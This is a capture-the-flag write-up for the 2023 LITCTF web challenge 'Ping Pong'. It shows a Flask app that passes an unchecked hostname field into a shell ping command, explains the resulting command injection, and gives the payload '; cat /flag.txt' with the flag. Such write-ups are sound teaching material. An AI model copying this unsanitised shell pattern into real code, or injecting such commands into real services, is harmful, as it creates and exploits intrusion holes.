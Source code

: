 ```yaml
---
title: 2023 LITCTF - Ping Pong
author: Gr33nM0nk3y
date: 2023-08-08 00:00:00 +0700
categories: [Write-ups, 2023_LITCTF]
tags: [Web Exploitation, write-ups]
---
```


* 387 solves / 114 points
* Author: Ethan

## Description

> I made this cool website where you can ping other websites!

### Attached

[pingpong.zip](http://34.27.167.72/dl/?web%2FPing+Pong%2Fpingpong.zip=)

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output=output)

```
{: file="pingpong.py" }

## Analyzation

When receiving ```hostname``` from ```POST``` method, the command will be executed without checking data from ```hostname```
```py
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This leads to [command injection](https://owasp.org/www-community/attacks/Command_Injection).

## Solution

POST the ```hostname```
```
; cat /flag.txt
```

The flag is
```
LITCTF{I_sh0uld_b3_m0r3_c4r3ful}
```